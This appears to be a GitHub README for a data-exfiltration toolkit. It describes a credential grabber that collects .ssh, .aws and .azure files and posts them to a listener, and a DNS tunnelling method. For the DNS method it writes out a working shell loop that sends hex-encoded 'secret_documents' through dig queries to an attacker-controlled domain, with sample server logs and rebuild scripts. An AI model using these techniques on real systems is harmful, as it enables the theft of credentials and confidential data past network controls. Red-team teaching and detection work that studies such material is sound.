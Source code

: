 # Data Exfiltration examples

There are two examples here for different target types: one uses an HTTP target which can be run on an arbitrary port. The other relies on the attacker having access to a DNS server and the logs. You could also use tcpdump/tshark to sniff DNS Lookup Packets going out, but there are other tutorials for that.

## CredsGrabber

Sample code to search through well known creds repositories for osx/linux (.ssh/.aws/.azure), zip up the contents and post them to an ephemeral web listener


**credsgrabber.py** is the local collector  and **server.py** is your listener.


## DNS Exfiltration

**dns_exfil.sh** - runs in the environment you want to move data out of. Presumes you have a file called "secret_documents.txt", but change this up to create the zipped payload. This will hex the zipfile then iteratively query the DNS server we own. 

For example:

The zipfile in hexed form will comprise lines like:
```
504b030414000000080037bc03530b2c23bbf40700004111000014001c00
7365637265745f646f63756d656e74732e74787455540900035ad209615a
d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6
4c133b9674b07d587865195ec00fd85a7d40b13bc94e4d55574f3dc8a1bf
de1159dd1c8e2c0b027c9921bbeb91191991917cf832892bd5cfa3cfa3fb
<...>
```

So we run:
```
user@securecompany:~$ for b in `cat secret_documents.hex`
> do
> dig $b.mydomain.net
> done

; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 63233
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net. IN A
```
which produces logs like:

```
4-Aug-2021 00:20:26.964 query-errors: info: client @0x7f4de00aa050 77.125.168.17#6672 (pizzaseo.com): query failed (REFUSED) for pizzaseo.com/IN/RRSIG at ../../../bin/named/query.c:6980
04-Aug-2021 00:20:29.218 queries: info: client @0x7f4de00aa050 123.456.111.11#64665 (504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net): query: 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.220 queries: info: client @0x7f4de00aa050 34.223.45.138#56323 (504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net): query: 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.279 queries: info: client @0x7f4de00aa050 44.242.177.26#50114 (7365637265745f646f63756d656e74732e74787455540900035ad209615a.mydomain.net): query: 7365637265745f646f63756d656e74732e74787455540900035ad209615a.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.288 queries: info: client @0x7f4de00aa050 44.242.177.26#4282 (d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6.mydomain.net): query: d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6.mydomain.net IN A -E(0)DC (10.15.16.10)
```
which will need to be extracted to recreate the hexfile.

**extract_dns_queries.py** - runs on a DNS server you control to rebuild the hex data from the lookups. Converts the log lines into a hexfile named dns_exfil_output.hex

**hex_rebuild.sh** - simple shell script to rebuild the hexfile back into a zipfile and unzip the data. Be thoughtful about how this works for large files/datasets.



